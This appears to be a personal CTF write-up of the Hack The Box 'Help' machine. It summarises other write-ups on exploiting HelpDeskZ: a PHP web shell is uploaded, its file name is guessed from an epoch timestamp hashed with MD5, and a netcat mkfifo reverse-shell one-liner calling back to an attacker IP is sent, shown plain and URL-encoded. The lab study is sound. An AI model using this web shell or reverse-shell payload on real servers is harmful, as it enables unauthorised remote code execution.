    * I kept focusing on the express until I realized it's a deadend.  
   * I also was writing the `gobuster` command the wrong way.

<br/><br/>

### <span class="helpmach subtitle">Nice Things I Found in Someone Else's Write Up  

* <span class="helpmach">0xRick's Writeup</span>  
  * So the Express wasn't a deadend after all it did have something useful which is *graphql* which is a query language for APIs (He stated that it needed alot of guessing and fuzzing).  
  
  * He kept checking the source code for the *helpdeskz* because, turns out, it's open source so he benefited from that alot. I think I might use that in the future too, look if the service is open source and check out its source code if I understand anything or find anything that would make me understand shit more.
  
  * He also changed the time zone from the *helpdeskz* itself which would've been beneficial if it wasn't already in the code I used  
   <img src="time_zone_help.PNG">

  * I have a freaking PHP backdoor on my VM (Kali Linux). It's in path `/usr/share/webshells/php/simple-backdoor.php` and it has the following code    
    ```php
    <?php
    if(isset($_REQUEST['cmd'])){
      echo "<pre>";
      $cmd = ($_REQUEST['cmd']);
      system($cmd);
      echo "</pre>";
      die;
    } ?>
    ```  

    So what the writer is suggesting is that I can use this backdoor to get remote code execution by uploading this file on the `helpdeskz` and then he used the following payload encoded with url encoding (I didn't really get what's happening in it honestly)  

     ```console
     rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 1337 >/tmp/f
     ```
     using it as follows  
     ```console
     http://help.htb/support/uploads/tickets/11559b997fcb9a724cbc0e2a6a4b98a3.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.xx.xx%201337%20%3E%2Ftmp%2Ff
     ```  

* <span class="helpmach">Raj Chandel's Writeup</span>  
  * He didn't use a python code or looped through the possibilities of times or even wrote a code for the time zone. What he states is that the code is using something called *Epoch Time* and there's a website online that can convert from normal time to epoch time so what we can do is take the timestamp on the response of the upload(I haven't tried if it works but it worked with him) and then convert it into epoch time and then concatenate the name of the file with this time and hash that into md5 which results in the name of the file as its saved and with that we can just visit the file with the path we talked about `/support/tickets/[FILE NAME]` and viola we've got the reverse shell.  
